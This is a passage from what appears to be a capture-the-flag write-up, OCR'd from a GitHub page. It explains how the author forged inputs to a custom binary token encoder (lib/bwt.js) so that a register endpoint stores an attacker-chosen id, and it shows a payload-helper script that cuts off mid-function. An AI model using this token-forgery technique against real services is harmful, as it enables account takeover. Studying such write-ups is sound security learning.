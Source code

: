 ```javascript  
   (err) => {  
data.id = entity.key.name;  
     cb(err, err ? null : data);  
   }  
 );  
}  
```

NO WAY MAN. everything I send to that register is stored in the db.

SO I can manufacture a special key, which decodes into the object I want. Can
I overwrite the id? Hell yeah. If I just make the decoder somehow comment out
the id, I'm gold.

From here I just had to understand how the encoder `lib/bwt.js` moves the bits
around. And then I created a register payload.

At this point I got so fluent in BWT code that I didn't code anything to spill
out bwt code for me. It was like second nature. I created `bwt-payload.js` to
test my wild theories, which is basically a `lib/bwt.js` without the hmac.  
```javascript  
'strict';

const crypto = require('crypto');

function pint(n) {  
   let b = new Buffer(4)  
   b.writeInt32LE(n)  
   return b  
}

function encode(o) {  
   let b = new Buffer(0)

   for (let k in o) {  
       let v = o[k]

       b = Buffer.concat([b, pint(k.length), Buffer.from(k)])

       switch(typeof v) {  
       case "string":  
           b = Buffer.concat([b, Buffer.from([1]), pint(Buffer.byteLength(v)), Buffer.from(v.toLowerCase())])  
           break  
       case 'number':  
           b = Buffer.concat([b, Buffer.from([2]), pint(v)])  
           break  
       default:  
           b = Buffer.concat([b, Buffer.from([0])])  
           break  
       }  
   }

   b = b.toString('base64')

   return b  
}

function decode(b) {  
   let o = {}  
   let i = 0  
   b = new Buffer(b, 'base64')

   while (i < b.length) {  
       n = b.readUInt32LE(i), i += 4  
```